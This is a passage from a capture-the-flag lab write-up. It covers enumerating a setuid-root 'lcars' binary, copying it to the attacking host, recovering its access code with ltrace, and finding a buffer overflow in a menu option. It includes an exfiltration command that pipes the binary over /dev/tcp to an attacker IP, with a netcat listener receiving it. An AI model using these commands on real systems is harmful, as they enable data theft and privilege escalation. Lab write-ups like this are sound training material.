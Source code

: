 ```terminal 

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System

Enter Bridge Access Code:
```
Searching for the binary showed that it is located on ```/bin/lcars```. The binary was transferred to the attacking host
for analysis, by converting it into base64, as follows.
```terminal
# On the target
www-data@enterprise:/bin$ ls -l lcars 
ls -l lcars 
-rwsr-xr-x 1 root root 12152 Sep  8  2017 lcars 
www-data@enterprise:/bin$ base64 lcars > /dev/tcp/10.10.14.11/8080 
base64 lcars > /dev/tcp/10.10.14.11/8080

# On the attacking host
[pwnd_root@manjaro Enterprise]$ nc -nvlp 8080 > lcars.base64 
Connection from 10.10.10.61:52832 
[pwnd_root@manjaro Enterprise]$ base64 -d lcars.base64 > lcars.binary 
```
> The lcars plugin is custom-built plugin, with imperfections, therefore, it is safe to assume that the lcars binary could 
> present some imperfections that can exploited.

The base64 file was decoded and converted back into lcars binary. Executing the binary, asked for an access code which
was found to be **picarda1** through *ltrace* as follows.
```terminal
[pwnd_root@manjaro Enterprise]$ ltrace ./lcars.binary  
__libc_start_main(0x56652c91, 1, 0xffdc65b4, 0x56652d30 <unfinished ...> 
---SNIP--
fgets( 
"\n", 9, 0xf7edb540)                                                                                   = 0xffdc64e7 
strcmp("\n", "picarda1")                                                                                     = -1 
---SNIP---
exit(0 <no return ...> 
+++ exited (status 0) +++
```

### Buffer Overflow
The binary was executed again, and with the identified access code, it was enumerated further. The enumeration 
identified that the **Security Override** under *Security* control has a buffer overflow vulnerability. 
> A string of 500 'A's were supplied as input to the security override option, causing the crash.
